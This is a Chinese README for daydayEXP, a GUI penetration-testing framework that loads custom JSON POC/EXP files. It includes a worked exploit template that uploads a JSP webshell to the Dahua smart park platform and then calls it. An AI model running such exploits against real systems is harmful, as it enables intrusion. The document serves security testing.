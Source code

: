  <h1 align="center">daydayEXP</h1>
	
## 项目简介：
受nuclei的设计思路影响，基于java fx写的一款支持加载自定义poc文件的、可扩展的的图形化渗透测试框架。项目反响还不错的话还会考虑继续更新....

## v0.2更新记录：
更新：
1.新增漏洞管理菜单，支持了POC编辑器，通过输入必要的参数信息自动生成poc文件（不需要自己手动一个个编辑json文件了!）
2.新增一键更新poc模块，一键同步配置文件、仓库POC信息。
![image](https://github.com/bcvgh/daydayEXP/assets/56790427/38e20af0-72b7-4e3f-b53a-bad26f5c4a13)

  
### 使用：

执行命令或用bat批处理脚本打开（直接打开会有中文乱码等问题，并确保poc文件在当前目录下）

食用建议：建议开启代理配合burp食用

```
java -jar -Dfile.encoding=UTF-8 dadayExp-0.1-jar-with-dependencies.jar   (jdk8)

因为jdk11以后就不自带javafx依赖了,所以运行需要指定javafx路径
java --module-path {javafx lib path} --add-modules ALL-MODULE-PATH -jar dadayExp-0.1-jar-with-dependencies.jar
```

#### 漏洞检测模块

选择一级列表内容可对所有该标签下的漏洞都进行检测，为多进程，默认线程为5。选择二级则对单个漏洞扫描。（因为多线程用的是继承Callable类，可能界面效果会不太好...）

![image](https://github.com/bcvgh/daydayEXP/assets/56790427/642384f2-344e-408c-afa6-b5b2c846c55e)


dnslog：在config.json中配置好dnslog api，面板中设置好dns地址即可食用。应用该功能可减少命令执行无回显或POC返回包特征值不明确导致的误报、漏报。（暂只支持ceye api）

下方例子中就可以看出，是否开启该模块会导致检测结果会有较大出入
![image](https://github.com/bcvgh/daydayEXP/assets/56790427/7e9db965-da7b-4251-865c-987ace0e3114)
![image](https://github.com/bcvgh/daydayEXP/assets/56790427/87ae9304-5f4f-4c00-b4fa-e66f2df6bab4)




#### 漏洞利用模块
点击漏洞利用按钮，会根据当前漏洞的type类型动态生成场景

`(命令执行类)`

例如命令执行、代码执行、SQL注入xpcmdshell等都归结到这一类

![image](https://github.com/bcvgh/daydayEXP/assets/56790427/99e2be93-71de-4e01-958a-e010385feb6a)




`(文件上传类)`

例如文件上传、任意文件写入、任意文件覆盖等都归结到这一类

![image](https://github.com/bcvgh/daydayEXP/assets/56790427/367b45dd-cbb8-458e-8054-bf3cf6632d5a)




`(反序列化类)`

开发中~~~~也没有想到较好的设计思路...
可以暂时用反序列化打内存马的poc直接当作文件上传类使用。



### POC编写

json文件中除了基本的name、tag等还有poc和exp两个模块(目前exp模块只支持type为upload或exec，如遇到其他类型漏洞，如：反序列化、未授权、sql注入等建议只设置好poc字段进行一个初步漏洞检测，后续手工进行利用)

对照其他poc的json文件，应该就能看懂编写规则。

```
name  :   漏洞名称
tag   ：  漏洞标签（如:fanwei、youyong等，需要正确填写，否则会影响到POC文件正确加载）
type  ：  漏洞类型（如:upload、exec、sql等，需要正确填写，否则影响EXP模块正常使用）
poc   :   漏洞检测
	pocGet:url路径
	pocPost:post数据(需要换行的情况建议用\r\n代替\n)
	header:
	Pattern：匹配返回包存在的特征值，通过匹配该字段确定漏洞是否存在
exp   ：
	step（n）：漏洞利用过程中的请求包先后顺序（step1代表请求的第一个数据包，step2、step3以此类推）
		expGet:url路径
		expPost:post数据
		header:
		Pattern：匹配返回包的内容（正则），当type类型为exec时，用来匹配返回包中的命令执行结果，upload类型则是一般用来匹配文件上传后随机生成的文件名。
```

例如:

```
{
  "name":"大华智慧园区管理平台文件上传",          //漏洞名称
  "tag":"dahua",							//漏洞标签（需要正确填写，否则影响POC文件正确加载）	
  "type":"upload",							//漏洞类型（需要正确填写，否则影响EXP模块正常使用）
  "poc": {									//根据模板编写，header头可自行添加修改
    "pocGet": "/publishing/publishing/material/file/video",			
    "pocPost": "id=1",												
    "header": {
      "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
      "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
      "User-Agent": "Mozilla/5.0 (Linux;"
    },
    "Pattern": "(上传文件为空，请重新上传)"		//存在漏洞时返回包存在的关键字（正则表达式必须用（）包含）
  },
  "exp": {									//按step1、step2...先后顺序发包
    "step1": {
      "expGet": "/publishing/publishing/material/file/video",
      "expPost": "------WebKitFormBoundaryCJEleSRxsqS0lAFv\r\nContent-Disposition: form-data; name=\"Filedata\";filename=\"24k.jsp\"\r\n\r\n{webshell}\r\n------WebKitFormBoundaryCJEleSRxsqS0lAFv--",
      "header": {
        "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
        "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
        "User-Agent": "Mozilla/5.0 (Linux;"
      },
      "Pattern": "([0-9]*\\.jsp)"			//第一个包需要正则匹配的话多为文件上传类型，匹配随机生成的jsp脚本名称，如无需匹配返回包则用（）。注意：正则表达式必须用（）包含。
    },
    "step2": {
      "expGet": "/publishingImg/VIDEO/{shellPath}",			//第一个包需要正则匹配的话多为文件上传类型，匹配随机生成的jsp脚本名称
      "header": {
        "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
        "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
        "User-Agent": "Mozilla/5.0 (Linux;"
      },
      "Pattern": "()"
    }
  }
}
```

占位符：

```
{仅poc内可用}
{dnslog}:配置好dnslog平台api即可食用。一般应用于命令执行无回显的情况，减少误报率。

{仅exp内可用}
{command}:命令执行
{shellPath}:匹配到返回包中的脚本名称，应用于上传后wenshell文件名随机生成且在返回包中有回显的场景。
{webshell}:需要上传的文件上传内容

{poc、exp内均可使用}
{random}:随机生成4位数字字母，应用于poc中需要不同特征字符的特殊场景
{url}:即当前目标的url地址，应用在一些网站中可能会校验refer头的情况

编码：
Base64Encode:对输入进行base64编码
Base64decode:对输入进行base64解码码
UrlEncode:url编码（全编码）
UrlDecode：url解码
HtmlEncode:HTML编码
HtmlDecode:HTML解码


如：{webshell:Base64Encode:n}，{command:UrlEncode:3}其中n表示编码次数。（如泛微browser注入漏洞可能会用到{command:UrlEncode:3}，其他一般情况编码一次即可）
```

